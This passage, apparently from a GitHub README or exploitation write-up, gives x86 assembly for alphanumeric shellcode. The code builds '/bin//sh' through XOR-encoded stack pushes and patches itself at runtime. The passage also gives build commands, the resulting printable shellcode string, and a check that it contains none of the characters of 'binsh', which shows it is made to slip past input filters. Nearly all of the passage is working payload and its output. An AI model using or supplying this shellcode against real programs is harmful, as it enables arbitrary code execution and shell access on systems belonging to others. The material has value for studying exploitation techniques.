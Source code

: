 ```
        inc ecx
        push ecx
        pop eax
        xor eax, 0x30304330
        xor eax, 0x59526c58
        push eax

        /* push 0x68732f2f */
        push edx
        pop ecx
        inc ecx
        push ecx
        pop eax
        xor eax, 0x30304343
        xor eax, 0x58436c6c
        push eax

        /* push 0x6852d231 */
        push edx
        pop ecx
        inc ecx
        push ecx
        pop eax
        xor eax, 0x30314141
        xor eax, 0x58636c70
        push eax
        push esp
        pop ecx
        inc ecx
        xor [ecx], dh

        push esp

ret:
        .byte 0x78

```

## testing

Compile the assembly code to an object file and extract the alphanumeric shellcode.

```
$ gcc -m32 -nostdlib test.s
$ strings a.out
PYj0X40PPPPQPaJRX4DRj0ZRZ0DV1ZRX502C05r9qOPTY01A01RX500D15cFZCPTY01RYAQX540D15ZFXcPTYA01A01RYAQX50C005XlRYPRYAQX5CC005llCXPRYAQX5AA105plcXPTYA01Tx
```

Make sure no invalid opcodes inside.

```
In [121]: [ c in "PYj0X40PPPPQPaJRX4DRj0ZRZ0DV1ZRX502C05r9qOPTY01A01RX500D15cFZCPTY01RYAQX540D15ZFXcPTYA01A01RYAQX50C005XlRYPRYAQX5CC005llCXPRYAQX5AA105plcXPTYA01Tx" for c in "binshBINSH" ]
Out[121]: [False, False, False, False, False, False, False, False, False, False]
```
